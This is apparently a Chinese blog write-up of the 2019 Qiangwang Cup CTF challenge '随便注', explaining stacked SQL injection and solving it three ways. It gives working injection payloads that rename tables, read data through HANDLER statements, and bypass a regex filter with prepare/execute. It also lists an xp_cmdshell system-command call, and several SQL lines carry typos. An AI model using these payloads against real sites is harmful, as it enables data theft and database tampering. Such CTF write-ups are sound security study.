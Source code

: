 # 2019年强网杯随便注入（堆叠注入实例）

## 堆叠注入
分号(;)在sql数据库中代表一句sql语句的结束，而如果在sql语句结束的后面在构造一条sql语句的话，会不会被执行呢？答案是肯定的。
因此，堆叠注入就是用分号作为每句sql语句的分隔，然后不断地在payload里构造sql语句。而联合注入（union select）与堆叠注入
的区别在于联合语句（union select）构造的sql语句是有限的，可以用来查询语句，而堆叠注入可以构造多条任意的sql语句。

缺点：堆叠注入第二个语句发生错误的话，由于 web系统中执行代码通常只会回显查询结果，所以我们在前端无法看到错误的结果的，
          所以读取数据，最好用联合注入

### 用法：

新建表
```
create table test like users //新建test这个数据表
```


删除表
```
drop table test //删除test这个数据表
```

查询数据
```
select 1,2,3
```

加载文件/读取文件
```
select load_file('c:/tmpupbbn.php) //读取c盘下的tmpupbbn.php文件
```

修改数据
```
insert into users(id,username,password) values('100','new','new') //在users表的列中添加id=100,username=new,password=new的数据

updata test set name='test' where id=3 //更新test表，将id=3的name字段改为test
```

sqlserver中最为重要的存储过程的执行
```
exec master..xp_cmdshell 'ipconfig' //执行master的存储过程，将命令字符串ipconfig，以系统命令shell的形式执行，并以文本的方式显示
```

修改表的名字
```
rename table test to users //将test表的名字改为users
```

修改表中列的名字
```
alter table test change flag data varchar(100) //进入test表，将列flag的名字改为data
```

添加表中的列
```
alter table test add id int unsigned not null auto_increment primary key //进入test表，添加id这个列并自动赋值，auto_increment是自动赋值
```

###mysql数据库中的handle语句

创建一个表
```
creat table handle_table(int id,name varchar(10)) //创建一个handle_table表，表里有id和name两个列
``` 

表中依次插入数据
```
insert into handle_table values(3,'张三') //在handle_table表中插入数据：id=3，name='张三'
```

打开一个表的句柄
```
handle test open as a //打开一个test表的句柄，并命名为a
```

不通过索引值看表，最后一行再用nest的话，回显示空格
```
handle test read first //查看test表中的第一行
handle test read nest //查看test表中的下一行

```


通过索引值查看表
```
creat index handle_index on handle_table(id) //将handle_table表中的id字段创建索引，并命名为handle_index

handle handle_table open as p //打开handle_table表中的句柄，并命名为p

handle handle_table read handle_index first //获取handle_table表中第一行的数据，此时handle_index=(1)，也可以写成：handle handle_table read handle_index=(1)

handle handle_table read handle_index next //获取handle_table表中的下一行数据

handle handle_table read handle_index prev //获取handle_table表中的上一行数据

handle handle_table read handle_index last //获取handle_table表中的最后一行数据
```

关闭handle_table表的句柄
```
handle handle_table close
``` 



## 实例

不断尝试各种闭合字符，发现当添加单引号的时候，发生报错，通过报错可以知道是单引号闭合
![强网2019随便注1](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/强网2019随便注1.jpg)

然后尝试?inject=1'union select @@version时，发现有正则过滤
![强网2019随便注2](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/强网2019随便注2.jpg)

因此我们可以想到堆叠注入，输入?inject=1';show databases;--+
![强网2019随便注3](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/强网2019随便注2.jpg)

然后我们再输入?inject=1';show tables;--+，可以看到有两张表
![强网2019随便注4](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/强网2019随便注2.jpg)

我们再输入?inject=1';show columns from `1919810931114514`;show columns from words;--+，看到1919810931114514表中有flag
![强网2019随便注5](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/强网2019随便注2.jpg)


### 有三种解法
第一种：由于输入1查询时，数据库会自动调用words这张表，所以可以将1919810931114514这张表改为words，将words这张表改为其它名字，
然后再添加id这个列，并将flag改为data即可

构造payload
``` 
?inject=1';rename table words to words1;rename table `1919810931114514` to words;alter table words add id  int unsigned not null auto_increment primary key;alter 
table words change flag data varcgae(100);--+
``` 

第二种解法：
利用handle语句

构造payload
``` 
?inject=1';handle `1919810931114514` open;handle `1919810931114514` read next;handle `1919810931114514` close;--+
``` 

第三种解法

将select语句进行16进制编码，绕过正则过滤。
可以使用prepare...from...预处理语句，会进行编码转换
然后用execute来执行由sqlprepare创建的sql语句
SET只能对后面的变量进行一次赋值

可以构造：?inject=1';SET@a=............................;prepare execsql from @a;execute execsql;--+

最后可以得到flag
 



